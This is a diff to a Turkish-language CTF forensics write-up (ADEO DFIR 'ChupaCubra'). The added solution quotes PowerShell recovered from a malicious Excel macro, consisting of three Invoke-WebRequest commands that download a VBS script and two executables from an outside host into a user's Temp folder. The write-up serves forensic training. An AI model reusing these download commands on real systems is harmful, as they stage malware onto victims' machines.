

Before and after one commit to jackalkarlos/CTF-Writeups-and-Scripts, a Markdown page: ADEO DFIR ChupaCubra/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/ADEO DFIR ChupaCubra/README.md
+++ b/ADEO DFIR ChupaCubra/README.md
@@ -1161,13 +1161,25 @@ dumpcap.exe
 
 ## Solution
 
+BodyMassIndex.xlsm dosyasındaki makroyu decode ettiğimizde aşağıdaki powershell kodlarına ulaşmıştık.
+Executable dosyaların indirildiği konum kodda gözüküyor.
+```
+Invoke-WebRequest -Uri http://ofbahar.com/notamalware.vbs -OutFile C:\Users\RickMartinGrimes\AppData\Local\Temp\notamalware.vbs
+Invoke-WebRequest -Uri http://ofbahar.com/accesstoken.exe -OutFile C:\Users\RickMartinGrimes\AppData\Local\Temp\AccessToken.exe
+Invoke-WebRequest -Uri http://ofbahar.com/BodyMassIndex.exe -OutFile C:\Users\RickMartinGrimes\AppData\Local\Temp\BodyMassIndex.exe
+```
+
+Cevap:
+```
+C:\Users\RickMartinGrimes\AppData\Local\Temp\
+```
+
 # 27. Soru
 
 ## Description
 > What is the creation time value of the downloaded malicious executables?
 
 ## Solution
-
 # 28. Soru
 
 ## Description
````
